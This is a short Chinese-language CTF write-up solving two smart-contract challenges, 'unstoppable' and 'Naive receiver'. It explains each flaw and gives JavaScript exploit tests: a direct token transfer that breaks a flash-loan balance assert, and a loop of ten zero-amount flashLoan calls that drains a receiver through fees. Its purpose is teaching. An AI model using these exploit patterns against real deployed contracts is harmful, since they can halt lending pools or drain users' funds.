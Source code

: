 ### 1.unstoppable
根据题目，即为攻击合约让他停止工作，在flashLoan函数里面有一句assert(poolBalance == balancebefore),所以让两者不相等即可
方法即为：transfer 1 ether给合约
攻击代码：
 it('Exploit', async function () {
     /** COOD YOUR EXPLOIT HIRE */
     await this.token.transfer(this.pool.address,1);
 });
 ### 2.Naive receiver
 题目要求：抽空用户合约里的所有eth
 flashLoan函数以borrower借款
 攻击代码：
  it('Exploit', async function () {
     /** COOD YOUR EXPLOIT HIRE */
     for(i=0;i<10;i++){
     await this.pool.flashLoan(this.receiver.address,0);
     }
  }); 
